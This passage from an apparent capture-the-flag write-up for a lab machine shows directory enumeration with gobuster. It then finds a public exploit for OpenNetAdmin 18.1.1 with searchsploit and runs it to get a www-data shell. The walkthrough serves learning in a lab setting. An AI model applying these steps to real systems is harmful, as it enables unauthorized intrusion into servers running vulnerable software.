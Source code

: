 `http://10.10.10.171/` shows the Apache2 Ubuntu Default Page.

```bash
luc@kali:~/OpenAdmin$ gobuster dir -u http://10.10.10.171 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp"
...
/index.html (Status: 200)
/music (Status: 301)
/artwork (Status: 301)
/sierra (Status: 301)
/server-status (Status: 403)
```

We get 3 different directories, `music`, `artwork` and `sierra`.

### Music

Browsing to this page `http://10.10.10.171/music/` shows a webpage with a `Login` link which brings us to `http://10.10.10.171/ona/`.

```text
You are NOT on the latest release version
Your version    = v18.1.1
Latest version = Unable to determine

Please DOWNLOAD the latest version.
```

This page notifies us that we're on an old version and we get a download link to `https://opennetadmin.com/download.html`.

```bash
luc@kali:~/OpenAdmin$ searchsploit opennetadmin
...
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)    | php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                     | php/webapps/47691.sh
...
luc@kali:~/OpenAdmin$ searchsploit -m php/webapps/47691.sh
  Exploit: OpenNetAdmin 18.1.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47691
     Path: /usr/share/exploitdb/exploits/php/webapps/47691.sh
File Type: ASCII text, with CRLF line terminators

Copied to: /home/luc/OpenAdmin/47691.sh
```

We can see that `OpenNetAdmin 18.1.1` is vulnerable to `remote code execution`. We'll use the one that doesn't use Metasploit here, [Bonus](#bonus) will take a look at the version that does use Metasploit in [OpenNetAdmin via Metasploit](#opennetadmin-via-metasploit).

```bash
luc@kali:~/OpenAdmin$ ./47691.sh http://10.10.10.171/ona/
./47691.sh: line 8: $'\r': command not found
./47691.sh: line 16: $'\r': command not found
./47691.sh: line 18: $'\r': command not found
./47691.sh: line 23: syntax error near unexpected token `done'
./47691.sh: line 23: `done'
luc@kali:~/OpenAdmin$ dos2unix 47691.sh
dos2unix: converting file 47691.sh to Unix format...
luc@kali:~/OpenAdmin$ ./47691.sh http://10.10.10.171/ona/
$ whoami
www-data
```
